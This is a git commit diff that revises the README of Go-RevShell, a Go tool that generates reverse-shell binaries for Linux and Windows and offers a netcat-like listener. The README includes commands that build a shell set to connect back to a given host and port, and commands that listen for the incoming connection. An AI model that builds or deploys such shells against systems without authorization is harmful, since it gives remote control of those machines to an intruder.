

rework readme started

diff --git a/README.md b/README.md
@@ -1,9 +1,9 @@
 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)
 
-Go-RevShell - README HAS TO BE REWORKED BEFORE GOING OPEN SOURCE
+Go-RevShell
 =======
 
-Pure standard Golang implementation of a reverse-shell generator and a tcp listener. PTY RevShell not ready.
+Pure standard Golang implementation of a reverse-shell generator and a netcat like tcp listener to attach the shell without any executable.
 
 ## Table of content
 - [Go-RevShell](#go-revshell)
@@ -13,7 +13,6 @@ Pure standard Golang implementation of a reverse-shell generator and a tcp liste
     - [Attach to reverse shell](#attach-to-reverse-shell)
   - [Screenshots](#screenshots)
   - [Todo List](#todo-list)
-
 
 ## Usage
 ```text
@@ -25,21 +24,18 @@ Pure standard Golang implementation of a reverse-shell generator and a tcp liste
         Port of the host which the reverse shell will connect to. (default "1111")
   -s string
         OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
-  -t string
-        Template to use to generate the reverse shell. Available : "native", "tty". (default "native")
 ```
 
 ### Build a reverse shell
 
-* Build a native shell for linux server : ```go run main.go -s linux```
-* Build a TYY shell for linux server : ```go run main.go -t tty -s linux```
-* Build a TYY shell for linux server, with client ip and port : ```go run main.go -t tty -s linux -i myhost.com -p 1111```
-* Build a native shell for windows server : ```go run main.go -s windows```
+* Build a shell for linux server : ```go run main.go -s linux```
+* Build a shell for windows server : ```go run main.go -s windows```
+* Build a shell for windows server to be attached on 192.1.1.10:4444 : ```go run main.go -i 192.168.1.10 -p 4444 -s windows```
 
 ### Attach to reverse shell
 
-* Listen to port 1111 ```go run main.go -l 1111```
-* Listen to port 3412 ```go run main.go -l 3412```
+* Listen on port 1111 ```go run main.go -l 1111```
+* Listen on port 3412 ```go run main.go -l 3412```
 
 ## Screenshots
 
@@ -48,9 +44,7 @@ Pure standard Golang implementation of a reverse-shell generator and a tcp liste
 
 ## Todo List
 
-* Fix pty shell
-* More tests across different os
-* Refresh and anon screenshots
-* Publish package and refresh ##Usage
+* Refresh attach screenshot with a windows host
+* Publish package
 
 **[`^        back to top        ^`](#)**
